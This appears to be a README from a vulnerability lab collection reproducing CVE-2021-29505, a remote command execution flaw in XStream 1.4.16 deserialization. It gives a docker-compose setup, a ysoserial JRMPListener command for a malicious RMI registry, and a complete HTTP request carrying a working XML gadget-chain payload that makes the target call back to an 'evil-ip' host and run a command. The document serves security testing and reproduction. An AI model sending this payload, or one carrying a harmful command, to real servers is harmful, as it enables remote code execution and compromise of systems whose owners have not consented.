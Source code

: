 # XStream Deserialization Remote Command Execution (CVE-2021-29505)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.16 and earlier, blocklists are incomplete and attackers could use `sun.rmi.registry.RegistryImpl_Stub` to make an RMI request and execute arbitrary commands finally.

Reference links.

- [https://x-stream.github.io/CVE-2021-29505.html][1]
- https://paper.seebug.org/1543/

## Vulnerable Environment

Start a Springboot + XStream 1.4.16 server.

```
docker-compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

First of all, you have to start a malicious RMI Registry on evil server using the JRMPListener of [ysoserial](https://github.com/frohoff/ysoserial).

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/success"
```

This RMI Registry, upon receiving the request, returns a malicious serialized object constructed with `CommonsCollections6` gadget.

Then, send the XML POC of CVE-2021-29505, replace **evil-ip** with address of evil RMI Registry.

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

The malicious RMI registry receives the RMI request successfully.

![](2.png)

Enter into the XStream container, ``touch /tmp/success`` has been successfully executed:

![](3.png)

Significantly, POC from [official website][1] is wrong, you must not use it.

[1]: https://x-stream.github.io/CVE-2021-29505.html

